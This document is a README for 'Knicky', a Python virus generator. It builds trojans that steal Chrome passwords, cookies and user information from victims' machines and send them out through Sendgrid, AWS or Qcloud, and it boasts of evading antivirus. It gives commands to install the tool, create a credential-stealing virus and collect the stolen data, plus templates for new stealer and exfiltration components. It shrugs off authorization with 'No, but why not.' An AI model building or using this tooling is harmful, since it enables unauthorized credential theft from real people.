

# Knicky
 
 
 

Yet another module-based static virus generator 


## Little FAQ
**WTF is static virus?**  
Static virus is the virus/trojan that has already had all its functions been defined and would not be controlled by server side. Instead, it would only send critical information (Chrome password, etc.) slowly and predictedly to server side using legitimate third-party services (Sendgrid, AWS, Qcloud, etc.).  
 

**Why use it?**  
Because the virus generated could always bypass the anti-virus softwares. If not, then make some modification on the modules you are using. And you can also use it in DMZ!  

**Am I authorized to hack others' computer?**  
No, but why not.


## Definition
You should know these conventions to understand following content
* Module - components that are used to return critical information
* Messenger - components that are used to communicate with you and the hacked machine
* Project - each specific virus created

## Installation
Please use Python 2.7ish!
```bash
$ git clone https://github.com/shouc/knicky.git && cd knicky
$ python -m pip install -r requirements/main.txt --user
```
## Small Examples

#### 1. Initialize the Module

##### Using Sendgrid
Note: *See the help information about such module*
```bash
$ python cli.py sgUpdate --help
```
Note: *Replace the information in <> in accordance to your personal information*
```
$ python -m pip install -r requirements/sendgrid.txt --user
$ python cli.py sgUpdate\
    --user <receiving email address>\
    --password <receiving email password>\
    --server <receiving email pop3 server>\
    --apiKey <sendgrid api key>\
    -b True
```

##### Using Qcloud COS (腾讯云储存)
Note: *See the help information about such module*
```bash
$ python cli.py qcloudUpdate --help
```
Note: *Replace the information in <> in accordance to your personal information after creating a COS bucket in the panel*
```
$ python -m pip install -r requirements/qcloud.txt --user
$ python cli.py qcloudUpdate\
    --secretID <SecretID>\
    --secretKey <SecretKey>\
    --region <BucketRegion>\
    --bucket <BucketName>\
    -b True
```

#### 2. Have an Overview on Components
See all information about Messenger (components that are used to communicate with you and the hacked machine)
```
$  python cli.py getSendInfo
```
See all information about Module (components that are used to return critical information)
```
$  python cli.py getModuleInfo
```
#### 3. Create a Virus
Note: *By doing so, you created a virus that could send the information of user (userInfo) and Chrome password (chromePassword) of the machine that executed the generated code to you by Qcloud(qcloud)*
```
$ python cli.py createProj userInfo+chromePassword qcloud
```
#### 4. Receive Information
Note: *The information sent to you is encrypted by base64 and you could use following command to decrypt*
```
$ python cli.py listProj
$ python cli.py receiveInfo <project name from foregoing command>
```


## Develop Module

Modules are located at `/module` folder and ends with `.py`.

A module's code should include two functions and several constant:

```python
__sys__ = ["Windows"] # Specify the platform supported
__name__ = "chromeCookies" # Specify the name of messenger
__desc__ = "Retrieve all Cookies of Google Chrome" # Specify the description of messenger


def send():
    """
    Generate the information that is sent to attacker's computer
    This is executed on client side
    :return: plain content need to send to attacker's computer
    """
    pass

```
Make sure to put all import statement in `send()` to make the virus more concise and efficient.

## Develop Messenger

Messengers are located at `/messenger` folder and ends with `.uninit`.

A messenger's code should include two functions and several constant:

```python
__sys__ = ["Windows", "Darwin", "Linux"] # Specify the platform supported
__name__ = "AWS" # Specify the name of messenger
__desc__ = "Use AWS" # Specify the description of messenger


def send(_content, _module, _projName):
    """
    How the information is sent to attacker's computer (e.g. sending email)
    This is executed on client side
    _content: the content need to send
    _module: the module that created this content
    _projName: the name of this project
    """
    pass

def receive(_range, _projName):
    """
    How the information is received by attacker's computer (e.g. receiving email)
    This is executed on attacker side
    _range: the amount of record attacker needs
    _projName: the name of this project
    :return: [{'_content': the content received
              '_projName': the name of this project
              '_byModule': the module created this content
              '_from': [Optional] the user identifier of this content (e.g. username of computer)
              '_id': [Optional] the identifier of this content
              '_date': the time},]
    """
    pass
```
Make sure to put all import statement in `send()` / `receive()` to make the virus more concise and efficient.

As different user has different credential for messenger (e.g. different API key for sendgrid), you can specify a configuration in `/config.py` and use `"!@knicky.xxxx@!"` to replace the original credential so that update function could understand.

For example,

```python
# config.py
class xxxUpdate(updateBase):
    def __init__(self, xxAPIKey="xxx", yyAPIKey="yyy", bypass=False):
        updateBase.__init__(self)
        updateBase.stop(self)
        self.bypass = bypass
        self.fileName = "messenger/xxx.uninit"
        self.updateList = [
            {"xxAPIKey": "secretID", "after": xxAPIKey, "desc": ""},
            {"yyAPIKey": "secretID", "after": yyAPIKey, "desc": ""},
        ]
```

Then, all `"!@knicky.xxAPIKey@!"` and `"!@knicky.yyAPIKey@!"` are replaced to what user specified in CLI.